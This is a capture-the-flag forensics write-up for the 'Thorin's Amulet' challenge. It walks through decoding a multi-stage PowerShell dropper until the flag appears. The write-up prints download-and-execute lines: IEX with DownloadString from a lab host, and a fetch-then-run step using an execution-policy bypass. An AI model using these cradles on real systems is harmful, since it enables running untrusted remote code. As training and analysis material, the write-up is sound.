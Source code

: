 = Thorin's Amulet

Author:: 0x42697262
Category:: Forensics
Difficulty:: Very Easy
Play Date:: 2025/03/22 - 2025/03/25

[NOTE]
****
The challenge can be downloaded here: attachment::thorins-amulet/forensics_thorins_amulet.zip[forensics_thorins-amulet.zip]
****

== Overview

.Description
****
Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. In the end Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened? Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.
****

This forensics challenge involves analyzing a Base64-encoded PowerShell "malware" script.
The script retrieves another script from a web URL protected by basic authentication.
Inside the downloaded script lies the actual malware code—our flag.

== Investigation

I opened `artifact.ps1` and immediately noticed a Base64-encoded string being executed with `powershell.exe -EncodedCommand`.  

[NOTE]
****
The source code of the script can be downloaded attachment:thorins-amulet/files/artifact.ps1[here].
****

As I do not like running scripts without checking them first, I opened the script in a text editor:

.artifact.ps1
[, powershell]
----
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
----

=== Decoding the First Layer

Here's the relevant line:  

[, powershell]
----
powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
----

This suggests that the script is trying to execute a command encoded in *Base64*.  

Interestingly, the script contains a basic anti-analysis check:  

[, powershell]
----
if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
    exit
}
----

If the computer name isn’t `WORKSTATION-DM-0043`, the script terminates.
This is likely an attempt by the author to prevent execution on unintended machines.  

Since I was too lazy to open *CyberChef*, I extracted and decoded the Base64 string directly:  

[, bash]
----
cat artifact.ps1 | grep -Eo '"[A-Za-z0-9=/]+"' | tr -d \" | base64 -d
----

Explanation:

* `grep -Eo '"[A-Za-z0-9+/=]+"' artifact.ps1`  
** `-E`: Enables extended regular expressions.  
** `-o`: Outputs only the matched text, excluding surrounding content.  
** `"[A-Za-z0-9+/=]+"`: Matches a quoted Base64 string (Base64 consists of A-Z, a-z, 0-9, `+`, `/`, and `=` for padding).  
* `tr -d \"`  
** Removes double quotes from the matched Base64 string.  
* `base64 -d`  
** Decodes the extracted Base64 string.  

_However, a more robust approach would be to directly extract and decode the Base64 string in one step using `awk` and `base64 -d`_:

[, bash]
----
awk -F'"' '/EncodedCommand/ {print $2}' artifact.ps1 | base64 -d
----

But why is this better?

* Instead of searching for arbitrary quoted strings (grep method), it directly finds the EncodedCommand line.
* `awk -F'"' '{print $2}'` extracts only the content inside the quotes.
* More precise and avoids unintended matches.

This gave us:

[, powershell]
----
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
----

So, the script is attempting to download another payload from `http://korp.htb/update` using PowerShell’s `DownloadString` method.  

=== Fetching the Second Script

[NOTE]
****
The source code of `update.ps1` can be downloaded attachment:thorins-amulet/files/update.ps1[here].
****

.update.ps1
[, powershell]
----
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
----

In `update.ps1`, there is a function `aqFVaq`.

This function fetches another script from `http://korp.htb/a541a`, but this time it requires authentication via a custom HTTP header (`X-ST4G3R-KEY`).
Without this header, the request would fail.  

I used `curl` to manually download the script:  

[, bash]
----
curl http://korp.htb/a541a --header "X-ST4G3R-KEY:5337d322906ff18afedc1edc191d325d" -o a541a.ps1
----

Now, let’s check out `a541a.ps1`.  

== Reconstruction

[NOTE]
****
The source code of `a541a.ps1` can be downloaded attachment:thorins-amulet/files/a541a.ps1[here].
****

This is the entire `a541a.ps1` script:

.a541a.ps1
[, powershell]
----
$a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
($a35 -split "(..)" | ?{$_} | % {[char][convert]::ToInt16($_,16)}) -join ""
----

Notice that a hex-encoded string is assigned to the variable `$a35` and the variable gets decoded on the next line.

Since nothing is being executed dynamically here, it should be safe to decode.  

=== Decoding the Payload

Running it in PowerShell:  

[, powershell]
----
$ powershell a541a.ps1
HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}
----

**Hence, flag captured! 🎉**

If you do not trust the code or do not know how to read powershell scripts, it is completely okay to copy the encoded flag hex values into CyberChef.
